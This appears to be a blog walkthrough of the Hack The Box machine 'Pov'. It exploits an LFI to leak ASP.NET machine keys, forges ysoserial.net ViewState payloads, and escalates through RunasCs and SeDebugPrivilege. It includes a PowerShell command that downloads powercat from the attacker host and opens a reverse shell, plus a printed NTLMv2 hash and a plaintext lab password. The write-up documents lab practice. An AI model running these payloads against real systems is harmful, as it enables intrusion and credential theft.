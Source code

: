 ```yaml
---
layout: post
title: "HTB Pov: Walkthrough"
date: 2024-11-29 10:00:00 +0000
categories: [HTB]
tags: [HTB, SeDebugPrivilege, Deserialization]
image:
  path: https://raw.githubusercontent.com/partyh4t/partyh4t.github.io/refs/heads/main/assets/posts/Headers/HTB.png
---
```


![image](https://github.com/user-attachments/assets/033f1bbf-8a89-40cd-9c85-1f7648fedec3)

We start off with identifying a `Deserialization` vulnerability within the web application, which we can exploit using `ysoserial` to execute arbitrary commands. This is followed by `SeDebugPrivilege` abuse to escalate privileges to `SYSTEM`.

## 0) Machine Overview
1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
3. [Privilege Escalation](#3-privilege-escalation)
4. [Privilege Escalation 2](#4-privilege-escalation-2)

## 1) Scans

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
```

Just port 80 is open, kinda odd to see that nowadays.

## 2) Web Enumeration

First thing I do is always manually interact and test the functionality of the website. In this case, there wasn't much to do. However, within the web-page, a hint to a different subdomain is found:

![image](https://github.com/user-attachments/assets/c1a3f134-b394-4609-8010-3af72c99c932)


And an email:
`sfitz@pov.htb`

Lets check out this new subdomain, whilst we run a domain bruteforce on the main webpage.

One thing I feel like is being hinted at, is the fact that the developer has a clear interesting of ASP.NET over the other languages, using bold for ASP.NET:

![image](https://github.com/user-attachments/assets/9b40e353-07f1-482a-ad2a-766a3b7e3b4d)

And if we inspect his CV:

![image](https://github.com/user-attachments/assets/a60c9ea0-4982-4b71-898f-4053a9f7df2e)

And them his testemonials:

![image](https://github.com/user-attachments/assets/193ba81e-7a01-43ad-9c3c-b2b0e315bce7)

Clearly hinting at something with ASP.Net.

So I started researching what possible vulnerabilities could be found within .NET, and the one that stood out to me was
`.NET Deserialization`.

In an extremely short and brief explanation as to how one could exploit that using `ysoserial.net`

```
ysoserial.net is a collection of utilities and property-oriented programming "gadget chains" discovered in common .NET libraries that can, under the right conditions, exploit .NET applications performing unsafe deserialization of objects. 

The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having gadgets on the classpath.
```


Now first we need to identify where we could even exploit such a vulnerability. If we head over to `contact.aspx` and intercept using Burpsuite, we can see that their is a `_VIEWSTATE`:

![image](https://github.com/user-attachments/assets/12cb4cbb-d16e-4a04-ba7e-3627bac94ff4)

Now here I did lots of research and this was my first time encountering a `deserialization` vulnerability. According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter), using the `__VIEWSTATE` parameter is a viable option and has been highly researched/tested.

Firstly, we need to know if that viewstate payload is _just_ base64 encoded, or if its encrypted and _then_ encoded. To do that, we can intercept with Burp and use an extension called `ViewState Editor` and head to that tab:

![image](https://github.com/user-attachments/assets/b7d843b0-fd4c-4883-8db1-c1bcbc2e1a4c)

Seems like its encrypted. In this case, we have 2 options. Either finding an LFI vulnerability to read the `web.config` file, or using a tool like `badsecrets` or `blacklist3r` to find the machine key. I first tried both tools, but had no luck with either, so I had to resort to trying to find an LFI.

I went back and intercepted the CV Download, to see what the request actually looked like. To my surprise, it was vulnerable to LFI:

![image](https://github.com/user-attachments/assets/50eb16a5-f410-45c8-ad6d-fe91bf421bf0)

![image](https://github.com/user-attachments/assets/92ae631e-56bd-4d1e-98fe-b578948d84e8)

Now we have the keys, we can encrypt and encode our own payload to put into the `__VIEWSTATE` parameter, using `ysoserial.net`, thanks again to HackTricks:
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "ping -n 5 10.10.14.14" --path="/portfolio/contact.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --isdebug
```

_(I originally tried providing the generator manually, but for some reason that doesn't work, and I had to provide the path, then it worked.)_

![image](https://github.com/user-attachments/assets/3e0498d5-68fc-4ffe-b8e5-5e0074a75e3e)

Lets get a shell now.
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.14/powercat.ps1');powercat -c 10.10.14.14 -p 1337 -e cmd" --path="/portfolio/contact.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --isdebug
```

![image](https://github.com/user-attachments/assets/96c39125-bc01-4af6-aa5f-9872974c3a07)

## 3) Privilege Escalation

Found an interesting file in `C:\Users\sfitz\Documents`

![image](https://github.com/user-attachments/assets/c4059147-0076-4564-a8af-b56ea02b4596)

Found sfitz's hash, but not much we can do with it considering we're already that user.
```
sfitz::POV:1122334455667788:c8095b512261711c926811ea8202336c:0101000000000000ff3a884d4652da01b8f3b8969c4d2f70000000000800300030000000000000000000000000200000caced61e6f045ec58da479c9571625b0cfd41740f5ac10c64d7afffe23427d900a00100000000000000000000000000000000000090000000000000000000000
```

I looked into what we can do with that `connection.xml`file, and I noticed that you can use `Import-Clixml` alongside `GetNetworkCredential().password` to get the clear-text:

![image](https://github.com/user-attachments/assets/a6d0f160-a7b2-4942-8fdf-1425e14ef38e)
`f8gQ8fynP44ek1m3`

I tried using `RunAs` to run a reverse shell as that user, but for some reason no matter what I did it just would not work. 

I also tried using powershell:

![image](https://github.com/user-attachments/assets/e959cb61-62ba-4d5f-894f-ac92c1d93c0e)

So then I found out about `RunasCs`, which basically is a better version of `RunAs`, I just have to compile it on my host machine.

First I had to create a `.csproj` file with: 
_(I put `net4.5` since I assumed that's what the target machine was using from earlier. Dont know if it would have mattered though.)_
```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net4.5</TargetFramework>
  </PropertyGroup>

</Project>
```

Then build it:

![image](https://github.com/user-attachments/assets/9d65df5f-ae66-4900-bbe1-0521b46e3a78)

Once uploaded:

![image](https://github.com/user-attachments/assets/b99f8b3f-c215-4c91-bd8f-f02ae1cddc5b)
![image](https://github.com/user-attachments/assets/7fb03194-8e5e-4c58-a41e-23bf2dfe75e7)

## 4) Privilege Escalation 2

If we run `whoami /priv`:

![image](https://github.com/user-attachments/assets/ac14a969-e94d-4431-86db-43b32f073ff9)

We can see we have `SeDebugPrivilege`, although it says its disabled. Usually we can try a variety of things to get it enabled, like getting a meterpreter shell, using `EnableAllTokenPrivs.ps1`, and probably other odd methods.

Now here, there's 2 ways we can go:

Either we can migrate to a different process using Metasploit, which would _(In my assumptions, do exactly what manually exploiting an SeDebug privilege would do, and inject itself/shellcode into the process id we give it)_ automatically giving us SYSTEM.

Or we can manually exploit it using `SeDebugPrivilegePoC.exe`, although we would have to compile it on our own machine manually since I wasn't able to compile it on the target. We also could try using `psgetsystem.ps1`. _(There is also xct's PoC as well)_

If we want to change the code that gets executed by `SeDebugPrivilegePoC.exe`, we can just alter it within the `.cs` file before compiling, at the `CreateProcess()` function.

In this case, I wasn't able to get any of the PoC's working, so I just resorted to the Metasploit method.

![image](https://github.com/user-attachments/assets/859354de-c3f1-4244-9775-1cf54c50dcbc)

Pwned.

